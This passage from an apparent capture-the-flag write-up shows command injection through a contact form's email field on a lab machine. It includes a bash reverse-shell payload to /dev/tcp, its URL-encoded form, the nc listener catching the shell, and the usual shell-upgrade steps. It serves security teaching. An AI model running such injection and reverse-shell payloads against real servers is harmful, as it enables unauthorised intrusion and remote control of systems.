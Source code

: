 It worked!

#### Shell

To get a shell from this, I’ll replace the `ping` command with a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```

name=0xdf&email=0xdf@only4you.htb; bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'&subject=test&message=test

```

That URL encodes (Ctrl-u in Burp) to:

```

name=0xdf&email=0xdf%40only4you.htb%3b+bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261'&subject=test&message=test

```

On sending that, there’s a connection back at my listening `nc`:

```

oxdf@hacky$ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.210 44348
bash: cannot set terminal process group (1005): Inappropriate ioctl for device
bash: no job control in this shell
www-data@only4you:~/only4you.htb$

```

I’ll upgrade my shell using the [typical trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@only4you:~/only4you.htb$ script /dev/null -c bash
Script started, file is /dev/null
www-data@only4you:~/only4you.htb$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@hacky$ stty raw -echo; fg
nc -lvnp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@only4you:~/only4you.htb$

```

## Shell as john

### Enumeration
